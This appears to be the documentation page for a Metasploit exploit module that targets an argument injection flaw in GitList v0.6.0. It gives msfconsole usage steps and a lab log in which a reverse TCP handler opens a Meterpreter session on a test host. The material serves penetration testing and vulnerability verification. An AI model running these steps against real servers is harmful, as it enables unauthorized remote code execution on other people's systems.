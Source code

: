 ## Description

  This module exploits an argument injection vulnerability in GitList v0.6.0

## Vulnerable Application

  GitList v0.6.0

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use [exploit/multi/http/gitlist_arg_injection]`
  4. Do: `set RHOSTS [IP]`
  5. Do: `run`
  6. You should get a session.

## Scenarios

### Tested on Ubuntu 18.04 x64

  ```
  msf5 > use exploit/multi/http/gitlist_arg_injection
  msf5 exploit(multi/http/gitlist_arg_injection) > set rhosts 192.168.37.141
  rhosts => 192.168.37.141
  msf5 exploit(multi/http/gitlist_arg_injection) > check
  [+] 192.168.37.141:80 The target is vulnerable.
  msf5 exploit(multi/http/gitlist_arg_injection) > run

  [*] Started reverse TCP handler on 192.168.37.1:4444
  [*] Sending stage (37775 bytes) to 192.168.37.141
  [*] Meterpreter session 1 opened (192.168.37.1:4444 -> 192.168.37.141:35804) at 2018-07-05 14:22:39 -0500

  meterpreter > sysinfo
  Computer    : ubuntu
  OS          : Linux ubuntu 4.15.0-20-generic #21-Ubuntu SMP Tue Apr 24 06:16:15 UTC 2018 x86_64
  Meterpreter : php/linux
  meterpreter >

  ```
